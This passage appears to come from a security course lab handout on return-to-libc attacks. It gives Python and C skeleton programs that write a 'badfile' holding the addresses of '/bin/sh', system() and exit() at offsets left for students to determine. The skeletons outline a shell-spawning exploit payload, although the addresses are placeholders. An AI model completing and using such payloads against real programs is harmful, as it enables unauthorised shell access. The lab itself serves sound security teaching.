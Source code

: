 \begin{lstlisting}
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0
sh_addr = 0x00000000       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0
system_addr = 0x00000000   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0
exit_addr = 0x00000000     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
\end{lstlisting}
 
You need to figure out the three addresses and the values for 
\texttt{X}, \texttt{Y}, and \texttt{Z}. 
If your values are incorrect,
your attack might not work. In your report, you need to
describe how you decide the values for {\tt X}, {\tt Y} and {\tt
Z}. Either show us your reasoning or, if you use a trial-and-error approach,
show your trials.


\paragraph{Using C.}
We also provide you with a skeleton of C code, with the essential 
parts left for you to fill out.


\begin{lstlisting}
/* exploit.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[40];
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
  *(long *) &buf[X] = some address ;   //  "/bin/sh"    (*@\ding{80}@*)
  *(long *) &buf[Y] = some address ;   //  system()     (*@\ding{80}@*)
  *(long *) &buf[Z] = some address ;   //  exit()       (*@\ding{80}@*)

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
\end{lstlisting}

You need to figure out the addresses in lines marked by , as well as to
find out where to store those addresses (i.e., the values 
for \texttt{X}, \texttt{Y}, and \texttt{Z}). If your values are incorrect, 
your attack might not work. In your report, you need to 
describe how you decide the values for {\tt X}, {\tt Y} and {\tt
Z}. Either show us your reasoning or, if you use a trial-and-error approach,
show your trials.


